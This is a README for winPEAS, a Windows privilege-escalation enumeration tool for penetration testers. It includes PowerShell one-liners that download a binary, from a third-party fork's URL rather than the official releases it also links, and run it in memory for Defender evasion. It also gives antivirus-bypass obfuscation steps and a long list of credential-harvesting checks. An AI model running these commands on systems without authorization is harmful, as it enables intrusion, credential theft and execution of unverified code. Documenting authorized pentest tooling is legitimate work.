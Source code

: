 # Windows Privilege Escalation Awesome Script (.exe)

![](https://github.com/peass-ng/PEASS-ng/raw/master/winPEAS/winPEASexe/images/winpeas.png)

**WinPEAS is a script that search for possible paths to escalate privileges on Windows hosts. The checks are explained on [book.hacktricks.wiki](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html)**

Check also the **Local Windows Privilege Escalation checklist** from **[book.hacktricks.wiki](https://book.hacktricks.wiki/en/windows-hardening/checklist-windows-privilege-escalation.html)**

[![youtube](https://github.com/peass-ng/PEASS-ng/raw/master/winPEAS/winPEASexe/images/screen.png)](https://youtu.be/66gOwXMnxRI)

## Quick Start

**.Net >= 4.5.2 is required**

Precompiled binaries:
- Download the **[latest obfuscated and not obfuscated versions from here](https://github.com/peass-ng/PEASS-ng/releases/latest)** or **compile it yourself** (read instructions for compilation).

```bash
# Get latest clean release (Windows Defender evasion)
$url = "https://github.com/moscowchill/PEASS-ng-MC/raw/refs/heads/master/winPEAS/winPEASexe/Dotfuscator/Dotfuscated/winPEAS_final.exe"

# One liner to download and execute winPEAS from memory in a PS shell
$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "$url" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("")

# The previous cmd in 2 lines
$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "$url" -UseBasicParsing | Select-Object -ExpandProperty Content));
[winPEAS.Program]::Main("") #Put inside the quotes the winpeas parameters you want to use

# Download to disk and execute (super noisy)
$wc = New-Object System.Net.WebClient
$wc.DownloadFile("https://github.com/moscowchill/PEASS-ng-MC/raw/refs/heads/master/winPEAS/winPEASexe/Dotfuscator/Dotfuscated/winPEAS_final.exe", "winPEAS.exe")
.\winPEAS.exe

# Load from disk in memory and execute:
$wp = [System.Reflection.Assembly]::Load([byte[]]([IO.File]::ReadAllBytes("D:\Users\victim\winPEAS.exe")));
[winPEAS.Program]::Main("") #Put inside the quotes the winpeas parameters you want to use

# Load from disk in base64 and execute
##Generate winpeas in Base64:
[Convert]::ToBase64String([IO.File]::ReadAllBytes("D:\Users\user\winPEAS.exe")) | Out-File -Encoding ASCII D:\Users\user\winPEAS.txt
##Now upload the B64 string to the victim inside a file or copy it to the clipboard

 ##If you have uploaded the B64 as afile load it with:
$thecontent = Get-Content -Path D:\Users\victim\winPEAS.txt
 ##If you have copied the B64 to the clipboard do:
$thecontent = "aaaaaaaa..." #Where "aaa..." is the winpeas base64 string
##Finally, load binary in memory and execute
$wp = [System.Reflection.Assembly]::Load([Convert]::FromBase64String($thecontent))
[winPEAS.Program]::Main("") #Put inside the quotes the winpeas parameters you want to use

# Loading from file and executing a winpeas obfuscated version
##Load obfuscated version
$wp = [System.Reflection.Assembly]::Load([byte[]]([IO.File]::ReadAllBytes("D:\Users\victim\winPEAS-Obfuscated.exe")));
$wp.EntryPoint #Get the name of the ReflectedType, in obfuscated versions sometimes this is different from "winPEAS.Program"
[<ReflectedType_from_before>]::Main("") #Used the ReflectedType name to execute winpeas
```

## Parameters Examples

```bash
winpeas.exe -h # Get Help
winpeas.exe #run all checks (except for additional slower checks - LOLBAS and linpeas.sh in WSL) (noisy - CTFs)
winpeas.exe systeminfo userinfo #Only systeminfo and userinfo checks executed
winpeas.exe notcolor #Do not color the output
winpeas.exe domain #enumerate also domain information
winpeas.exe wait #wait for user input between tests
winpeas.exe debug #display additional debug information
winpeas.exe log #log output to out.txt instead of standard output
winpeas.exe -linpeas=http://127.0.0.1/linpeas.sh #Execute also additional linpeas check (runs linpeas.sh in default WSL distribution) with custom linpeas.sh URL (if not provided, the default URL is: https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/linPEAS/linpeas.sh)
winpeas.exe -lolbas  #Execute also additional LOLBAS search check
```

## Basic information

The goal of this project is to search for possible **Privilege Escalation Paths** in Windows environments.

New in this version:
- Detect potential GPO abuse by flagging writable SYSVOL paths for GPOs applied to the current host and by highlighting membership in the "Group Policy Creator Owners" group.


It should take only a **few seconds** to execute almost all the checks and **some seconds/minutes during the lasts checks searching for known filenames** that could contain passwords (the time depened on the number of files in your home folder). By default only **some** filenames that could contain credentials are searched, you can use the **searchall** parameter to search all the list (this could will add some minutes).

The tool is based on **[SeatBelt](https://github.com/GhostPack/Seatbelt)**.

### New (AD-aware) checks

- Active Directory quick checks now include:
  - gMSA readable managed passwords: enumerate msDS-GroupManagedServiceAccount objects and report those where the current user/group is allowed to retrieve the managed password (PrincipalsAllowedToRetrieveManagedPassword).
  - AD CS (ESC4) hygiene: enumerate published certificate templates and highlight templates where the current user/group has dangerous control rights (GenericAll/WriteDacl/WriteOwner/WriteProperty/ExtendedRight) that could allow template abuse (e.g., ESC4 -> ESC1).

These checks are lightweight, read-only, and only run when the host is domain-joined.


## Where are my COLORS?!?!?!

The **ouput will be colored** using **ansi** colors. If you are executing `winpeas.exe` **from a Windows console**, you need to set a registry value to see the colors (and open a new CMD):
```
REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```

Below you have some indications about what does each color means exacty, but keep in mind that **Red** is for something interesting (from a pentester perspective) and **Green** is something well configured (from a defender perspective).

![](https://github.com/peass-ng/PEASS-ng/raw/master/winPEAS/winPEASexe/images/colors.png)

## Instructions to compile you own obfuscated version

<details>
  <summary>Details</summary>

In order to compile an **ofuscated version** of Winpeas and bypass some AVs you need to ** install dotfuscator ** in *VisualStudio*.

To install it *open VisualStudio --> Go to Search (CTRL+Q) --> Write "dotfuscator"* and just follow the instructions to install it.

To use **dotfuscator** you will need to **create an account** *(they will send you an email to the address you set during registration*).

Once you have installed and activated it you need to:
1. **Compile** winpeas in VisualStudio
2. **Open dotfuscator** app
3. **Open** in dotfuscator **winPEAS.exe compiled**
4. Click on **Build**
5. The **single, minimized and obfuscated binary** will appear in a **folder called Dotfuscator inside the folder were winPEAS.exe** and the DLL were (this location will be saved by dotfuscator and by default all the following builds will appear in this folder).

**I'm sorry that all of this is necessary but is worth it. Dotfuscator minimizes a bit the size of the executable and obfuscates the code**.

![](https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/winPEAS/winPEASexe/images/dotfuscator.PNG)

**IMPORTANT**: Note that Defender will higly probable delete the winpeas iintial unobfuscated version, so you need to set as expections the origin folder of Winpeas and the folder were the obfuscated version will be saved:
![](https://user-images.githubusercontent.com/1741662/148418852-e7ffee6a-c270-4e26-bf38-bb8977b3ad9c.png)
</details>

## Checks

<details>
  <summary>Details</summary>

- **System Information**
  - [x] Basic System info information
  - [x] Use Watson to search for vulnerabilities
  - [x] Enumerate Microsoft updates
  - [x] PS, Audit, WEF and LAPS Settings
  - [x] LSA protection
  - [x] Credential Guard
  - [x] WDigest
  - [x] Number of cached cred
  - [x] Environment Variables
  - [x] Internet Settings
  - [x] Current drives information
  - [x] AV
  - [x] Windows Defender
  - [x] UAC configuration
  - [x] NTLM Settings
  - [x] Local Group Policy
  - [x] Applocker Configuration & bypass suggestions
  - [x] Printers
  - [x] Named Pipes
  - [x] AMSI Providers
  - [x] SysMon
  - [x] .NET Versions

- **Users Information**
  - [x] Users information
  - [x] Current token privileges
  - [x] Clipboard text
  - [x] Current logged users
  - [x] RDP sessions
  - [x] Ever logged users
  - [x] Autologin credentials
  - [x] Home folders
  - [x] Password policies
  - [x] Local User details
  - [x] Logon Sessions

- **Processes Information**
  - [x] Interesting processes (non Microsoft)

- **Services Information**
  - [x] Interesting services (non Microsoft) information
  - [x] Modifiable services
  - [x] Writable service registry binpath
  - [x] PATH Dll Hijacking

- **Applications Information**
  - [x] Current Active Window
  - [x] Installed software
  - [x] AutoRuns
  - [x] Scheduled tasks
  - [x] Device drivers

- **Network Information**
  - [x] Current net shares
  - [x] Mapped drives (WMI)
  - [x] hosts file
  - [x] Network Interfaces
  - [x] Listening ports
  - [x] Firewall rules
  - [x] DNS Cache (limit 70)
  - [x] Internet Settings

- **Cloud Metadata Enumeration**
  - [x] AWS Metadata
  - [x] GCP Metadata
  - [x] Azure Metadata

- **Windows Credentials**
  - [x] Windows Vault
  - [x] Credential Manager
  - [x] Saved RDP settings
  - [x] Recently run commands
  - [x] Default PS transcripts files
  - [x] DPAPI Masterkeys
  - [x] DPAPI Credential files
  - [x] Remote Desktop Connection Manager credentials
  - [x] Kerberos Tickets
  - [x] Wifi
  - [x] AppCmd.exe
  - [x] SSClient.exe
  - [x] SCCM
  - [x] Security Package Credentials
  - [x] AlwaysInstallElevated
  - [x] WSUS

- **Browser Information**
  - [x] Firefox DBs
  - [x] Credentials in firefox history
  - [x] Chrome DBs
  - [x] Credentials in chrome history
  - [x] Current IE tabs
  - [x] Credentials in IE history
  - [x] IE Favorites
  - [x] Extracting saved passwords for: Firefox, Chrome, Opera, Brave

- **Interesting Files and registry**
  - [x] Putty sessions
  - [x] Putty SSH host keys
  - [x] SuperPutty info
  - [x] Office365 endpoints synced by OneDrive
  - [x] SSH Keys inside registry
  - [x] Cloud credentials
  - [x] Check for unattended files
  - [x] Check for SAM & SYSTEM backups
  - [x] Check for cached GPP Passwords
  - [x] Check for and extract creds from McAffe SiteList.xml files
  - [x] Possible registries with credentials
  - [x] Possible credentials files in users homes
  - [x] Possible password files inside the Recycle bin
  - [x] Possible files containing credentials (this take some minutes)
  - [x] User documents (limit 100)
  - [x] Oracle SQL Developer config files check
  - [x] Slack files search
  - [x] Outlook downloads
  - [x] Machine and user certificate files
  - [x] Office most recent documents
  - [x] Hidden files and folders
  - [x] Executable files in non-default folders with write permissions
  - [x] WSL check

- **Events Information**
  - [x] Logon + Explicit Logon Events
  - [x] Process Creation Events
  - [x] PowerShell Events
  - [x] Power On/Off Events

- **Additional (slower) checks**
  - [x] LOLBAS search
  - [x] run **[linpeas.sh](https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/linPEAS/linpeas.sh)** in default WSL distribution

</details>

## TODO
- Add more checks
- Mantain updated Watson (last JAN 2021)

If you want to help with any of this, you can do it using **[github issues](https://github.com/peass-ng/PEASS-ng/issues)** or you can submit a pull request.

If you find any issue, please report it using **[github issues](https://github.com/peass-ng/PEASS-ng/issues)**.

**WinPEAS** is being **updated** every time I find something that could be useful to escalate privileges.

## Advisory

All the scripts/binaries of the PEAS Suite should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own networks and/or with the network owner's permission.
